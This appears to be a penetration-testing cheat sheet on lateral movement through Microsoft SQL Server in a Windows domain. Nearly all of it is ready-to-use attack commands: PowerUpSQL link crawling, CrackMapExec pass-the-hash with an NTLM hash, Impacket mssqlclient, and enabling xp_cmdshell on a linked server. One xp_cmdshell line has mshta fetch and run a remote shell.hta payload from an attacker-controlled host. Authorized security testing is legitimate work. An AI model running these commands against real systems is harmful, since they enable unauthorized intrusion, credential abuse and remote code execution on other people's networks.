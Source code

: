 # MSSQL Lateral Movement

## 01 - Powershell

- Retrieving MSSQL SPN and domain

```
PS C:\> Get-SQLInstanceDomain

PS C:\> Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo

PS C:\> Get-SQLServerLinkCrawl -Instance "<IP>.<domain_name>,1433"

PS C:\> Get-SQLConnectionTest -Instance "<IP>.<domain_name>,1433" | fl

PS C:\> Get-SQLServerInfo -Instance "<IP>.<domain_name>,1433"

PS C:\> Get-SQLServerInfo -Instance "<IP>.<domain_name>,1433" -Query "<SQL Queries>"

PS C:\> Get-SQLServerInfo -Instance "<IP>.<domain_name>,1433" -Query "SELECT @@SERVERNAME"
```

## 02 - CrackMapExec

`$ crackmapexec mssql <IP>/<CIDR> -u "<username>" -H "<ntlm_hash>" -d <domain_name>`

## 03 - Impacket

`$ mssqlclient.py -windows-auth <domain_name>/<username>@<IP>`

- Pass the Hash

`$ mssqlclient.py`

## 04 - PowerUpSQL

### 4.1 - Invoke-SQLOSCmd

```
PS C:\> impo .\PowerUpSQL.ps1

PS C:\> Invoke-SQLOSCmd -Instance "<IP>.<domain_name>,1433" -Command "<command>" -RawResults
```

### 4.2 - Get-SQLServerLinkCrawl

```
PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Verbose

PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;')"

PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Query "exec master..xp_cmdshell 'mshta.exe http://<IP>/shell.hta'"
```

## 05 - Sqsh

`$ pth-sqsh`

## References

- [MSSQL for Pentester Abusing Linked Database](https://www.hackingarticles.in/mssql-for-pentester-abusing-linked-database/)

- [SQL Server Link Crawling PowerUpSQL](https://www.netspi.com/blog/technical/network-penetration-testing/sql-server-link-crawling-powerupsql/)

- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
